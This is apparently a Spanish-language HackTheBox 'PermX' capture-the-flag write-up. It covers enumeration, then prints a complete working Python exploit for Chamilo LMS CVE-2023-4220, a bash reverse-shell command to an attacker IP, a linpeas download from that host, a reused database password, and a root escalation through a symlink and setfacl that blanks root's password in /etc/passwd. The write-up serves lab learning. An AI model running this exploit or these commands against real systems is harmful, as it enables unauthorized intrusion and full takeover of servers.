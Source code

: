 “PermX” es una máquina de dificultad fácil de la plataforma `HackTheBox`. Somos capaces de encontrar que la máquina víctima está corriendo un servidor web, y albergando un sitio mediante `vhosting` corriendo `Chamilo LMS` el cual es vulnerable a `Remote Code Execution` ([CVE-2023-4220](https://nvd.nist.gov/vuln/detail/CVE-2023-4220)). Esto nos permite ganar acceso inicial a la máquina víctima. Somos entonces capaces de obtener credenciales para un usuario dentro de ésta las cuales se encontraban en unos archivos de configuración. Pivoteando a este nuevo usuario, podemos ver que éste puede ejecutar un script personalizado como `root`. Este script nos permite, mediante un enlace simbólico, editar archivos sensibles del sistema como `/etc/passwd`; lo cual nos permite cambiar/borrar la contraseña del usuario `root` y tomar control de éste.


lo primero como siempre los escaneos de nmap:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 10.10.11.23 -oG allports
```
![[Pasted image 20241110110416.png]]

```bash
nmap -sVC -p80,22 10.10.11.23 -oN ports
```

![[Pasted image 20241110110515.png]]
en el output de este ultimo vemos que hay un dominio llamado permx.htb por lo que devemos añadirlo al /etc/hosts:

![[Pasted image 20241110110746.png]]
vale vamos a hacer un whatweb para ver algo mas de informacion de la pagina antes de entrar
```bash
whatweb 10.10.11.23

http://10.10.11.23 [302 Found] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.10.11.23], RedirectLocation[http://permx.htb], Title[302 Found]
http://permx.htb [200 OK] Apache[2.4.52], Bootstrap, Country[RESERVED][ZZ], Email[permx@htb.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.10.11.23], JQuery[3.4.1], Script, Title[eLEARNING]
```
no hay mucha info aparte de un email

vamos a proceder a entar a la web

![[Pasted image 20241110111635.png]]
vemos que es una web de classes o educacion. de por si no veo nada interesante por lo que vamos a enumerar directorios con gobustes

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://permx.htb -t 30 --add-slash
```
![[Pasted image 20241110112401.png]]
no vemos nada interesante por lo que voy a enumerar subdominios:
```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://permx.htb/ -H 'Host: FUZZ.permx.htb' -t 40 -fw 18 --mc=200
```
![[Pasted image 20241110113424.png]]
vemos que hay dos www y lms por o que las añadimos al etc/hosts

![[Pasted image 20241110113529.png]]
si vamos a http://www.permx.htb nos sale lo mismo que llendo sin el www
pero si vamos a http://lms.permx.htb nos sale un panel de inicio de sesion

![[Pasted image 20241110114204.png]]
si nos ponemos a investigar un poco descubriremos que hay un CVE reciente para este servicio CVE-2023-4220.

investigando mas e encontrado este exploit en python para el CVE:

```python

#!/usr/bin/python3
import requests
import argparse
from sys import exit as sysexit
from os import remove as osremove


def parse_arguments()->argparse.Namespace:
    parser = argparse.ArgumentParser(description='Process some flags.')
    
    # Add arguments
    parser.add_argument('-u', '--url', type=str, help='URL running Chamilo LMS. Example: http://example-target.com', required=True)
    parser.add_argument('-c', '--command', type=str, help='System command to run in the victim target', required=True)
    parser.add_argument('-f', '--filename', type=str, help='PHP filename/payload to upload to the target. Default: poc.php', default='poc.php')
    # Return parsed arguments
    return parser.parse_args()


def create_payload(args:argparse.Namespace)->None:
    # Create and write the file that contains the payload
    php_code = f'<?php system("{args.command}"); ?>'
    with open(args.filename, 'w') as file:
        file.write(php_code)
    print(f"[+] Creating the PHP file/payload with the command {args.command!r}...")
    return


def upload_payload(args: argparse.Namespace)->None:
    # Set the url to attack
    upload_url: str = f'{args.url}/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
    print("[+] Attempting to upload the payload...")
    with open(args.filename, 'rb') as file:
        files = {'bigUploadFile': file}
        try:
            response = requests.post(upload_url, files=files)
        except Exception as err:
            print(f"[-] Something happened when attempting to load the payload:\n{err}")
            sysexit(1)
    if response.status_code != 200:
        print(f"[-] Bad status code in POST request: HTTP Status Code {response.status_code}")
        sysexit(1)
    print(f"[+] Server response:\n{response.text}")
    return


def get_payload(args: argparse.Namespace)->None:
    # Set the url where the file should be uploaded
    access_url = f'{args.url}/main/inc/lib/javascript/bigupload/files/{args.filename}'
    print("[+] Attempting to get the content of the uploaded file...")
    try:
        # Access the uploaded file
        response = requests.get(access_url)
    except Exception as err:
        print(f"[-] Something happened:\n{err}")
        sysexit(1)
    # Print the response from the access request
    print(f"[+] Uploaded file content:\n{response.text}")
    return


def main()->None:
    # Get argument from the user
    args = parse_arguments()
    print(f"[+] Attacking {args.url!r}...")
    # Create the file/payload
    create_payload(args)
    try:
        # Upload the payload
        upload_payload(args)
        # Get the content of the payload
        get_payload(args)
    finally:
        # Remove the file/payload we have created
        osremove(args.filename)

if __name__ == "__main__":
    main()

```
lo guardamos y nos ponemos en escucha

```bash
nc -nlvp 9001 
```

y ejecutamos el exploit:
```bash
python3 CVE.py -u http://lms.permx.htb -c "bash -c 'bash -i >& /dev/tcp/10.10.16.89/9001 0>&1'"
```


![[Pasted image 20241110114912.png]]


vale estamos dentro

una vez dentro vamos a subir la herramienta linpeas para buscar si hay datos

```bash
python3 -m http.server 8000
```

```bash
wget http://10.10.16.89/linpeas.sh -O /tmp/linpeas.sh
```

le damos permiso de ejecucion:

```bash
chmod +x /tmp/linpeas.sh
```

y ejecutamos

vemos lo siguiente

```bash
╔══════════╣ Searching passwords in config PHP files
/var/www/chamilo/app/config/configuration.php:                'show_password_field' => false,
/var/www/chamilo/app/config/configuration.php:                'show_password_field' => true,
/var/www/chamilo/app/config/configuration.php:        'wget_password' => '',
/var/www/chamilo/app/config/configuration.php:    'force_different_password' => false,
/var/www/chamilo/app/config/configuration.php:$_configuration['auth_password_links'] = [
/var/www/chamilo/app/config/configuration.php:$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
/var/www/chamilo/app/config/configuration.php:$_configuration['password_encryption'] = 'bcrypt';
/var/www/chamilo/app/config/configuration.php:/*$_configuration['password_requirements'] = [
/var/www/chamilo/app/config/configuration.php://$_configuration['email_template_subscription_to_session_confirmation_lost_password'] = false;
```
vemos una credencial
y aparte si vamos al directorio home 
![[Pasted image 20241110115821.png]]
vemos un usuario

vamos a probar si son validas para este usuario

```bash
netexec ssh 10.10.11.23 -u 'mtz' -p '03F6lY3uXAP2bkW8'
```
![[Pasted image 20241110115928.png]]
y si por lo que podemos hacer un pash the hash para haceder 

```bash
sshpass -p '03F6lY3uXAP2bkW8' ssh -o stricthostkeychecking=no mtz@10.10.11.23
```

![[Pasted image 20241110120027.png]]
## escalado de privilegios
si hacemos 

```bash
sudo -l
```
![[Pasted image 20241110120546.png]]
vemos que tenemos acceso a un archivo .sh
Este es un script en `Bash` el cual es usado para definir listas de control de acceso (ACLs) para un archivo específico a un usuario específico. Basados en `GTFOBins`, tal cual se explica [aquí](https://gtfobins.github.io/gtfobins/setfacl/), podemos usar `setfacl` para asignar permisos a archivos sensibles del sistema.

Sin embargo, el script tiene 2 restricciones:

1. El archivo debe de estar localizado dentro del directorio `/home/mtz`.
2. El archivo no puede tener `..` en su nombre. Por lo que intentar un `Directory Traversal` no es una opción factible.

Luego de pensarlo un poco, podemos crear un link simbólico a un archivo del sistema. Por ejemplo crear un link simbólico a `/etc/passwd` y localizarlo en el directorio `/home/mtz`:

```shell-session
mtz@permx:~$ ln -s /etc/passwd /home/mtz/passwd_copy
```

Luego, ejecutamos el script con `sudo`:

```shell-session
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/passwd_copy
```

No obtuvimos errores. Quizás esto funcionó.

Si esto ha funcionado, ahora deberíamos de ser capaces de editar el archivo `/etc/passwd`. Podemos usar un editor de texto como `nano` o `vi` (ambos disponibles en la máquina víctima) para editar este archivo simplemente ejecutando `nano /home/mtz/passwd_copy` o `nano /etc/passwd` y cambiando solamente la línea:

```shell-session
root:x:0:0:root:/root:/bin/bash
```

a

```shell-session
root::0:0:root:/root:/bin/bash
```

![[Pasted image 20241110120923.png]]
